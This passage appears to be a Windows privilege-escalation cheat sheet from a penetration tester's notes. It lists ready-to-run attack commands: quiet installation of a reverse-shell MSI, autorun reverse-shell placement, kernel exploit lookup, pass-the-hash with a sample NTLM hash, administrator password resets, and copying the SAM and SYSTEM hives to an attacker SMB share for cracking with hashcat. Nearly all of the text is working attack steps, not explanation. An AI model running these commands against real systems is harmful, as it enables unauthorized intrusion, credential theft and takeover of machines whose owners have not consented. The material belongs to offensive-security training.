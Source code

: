 Listener on kali
    
```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```
    
## AUTORUNS 
(Admin must login for this to work)
    
Look for WinPeas results  

```
reg query "regpath"  

accesschk.exe /accepteula -wvu servicepath (checking whether we can place our revshell.exe there) 
```

start listener before placing file  

Since its autorun we get shell after restarting server and admin login

## KERNEL EXPLOITS:
```
systeminfo | findstr /B /C:"OSName" /C:"OSVersion" /C:"SystemType"  
driveryquery /v (even if driver is stopped we can interact with it since its loaded in kernel memory space) 
```
searchsploit "3rd party drivername"  
For more info on version look for that drivername in ProgramFiles\  
require gcc.exe
filetransfer
Run whoami before running exploit 
https://www.exploit-db.com/exploits/40564 - afd.sys LPE

## Pass The Hash
```
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd 
evil-winrm -u user -H hash -i ip
```

## CLSID Extraction
```
Get-ChildItem -Path HKLM:\SOFTWARE\Classes\CLSID | ForEach-Object { if ((Get-ItemProperty $_.pspath).'(default)' - match "AppID") { Write-Host $_.pschildname } }
```
## Try to Change password pf administrator
```
net user "user" "pass"
```
## Changes to System Shell
```
powershell.exe Start-Process cmd.exe -Verb runAs
```
## SAM & System Files
```
copy C:\Windows\Repair\SAM \\10.10.10.10\kali\  
copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\  
python3 creddump7/pwdump.py SYSTEM SAM  
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```
Try Pass-The-Hash Attack.
